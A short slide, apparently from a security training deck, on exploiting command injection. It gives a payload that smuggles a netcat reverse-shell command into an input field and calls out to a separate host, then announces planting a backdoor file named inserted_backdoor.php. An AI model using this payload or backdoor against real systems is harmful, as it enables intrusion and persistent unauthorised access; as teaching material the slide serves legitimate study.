

# Command injection
Now that we can send commands, we will get a reversed shell and install a backdoor. We will send the payload
127.0.0.1|nc 10.0.2.15 4747 -e /bin/bash
And we will add a new endpoint at inserted_backdoor.php